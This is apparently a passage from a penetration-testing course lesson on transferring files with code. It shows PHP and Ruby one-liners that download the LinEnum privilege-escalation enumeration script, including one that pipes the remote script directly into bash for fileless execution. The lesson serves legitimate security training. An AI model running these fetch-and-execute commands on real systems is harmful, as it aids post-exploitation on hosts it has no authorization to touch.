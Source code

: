 #### PHP Download with File\_get\_contents()

Transferring Files with Code

```shell
6165@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

An alternative to `file_get_contents()` and `file_put_contents()` is the [fopen() module](https://www.php.net/manual/en/function.fopen.php). We can use this module to open a URL, read it's content and save it into a file.

#### PHP Download with Fopen()

Transferring Files with Code

```shell
6165@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

___

We can also send the downloaded content to a pipe instead, similar to the fileless example we executed in the previous section using cURL and wget.

#### PHP Download a File and Pipe it to Bash

Transferring Files with Code

```shell
6165@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

**Note:** The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.

___

## Other Languages

`Ruby` and `Perl` are other popular languages that can also be used to transfer files. These two programming languages also support running one-liners from an operating system command line using the option `-e`.

___

#### Ruby - Download a File

Transferring Files with Code

```shell
6165@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```
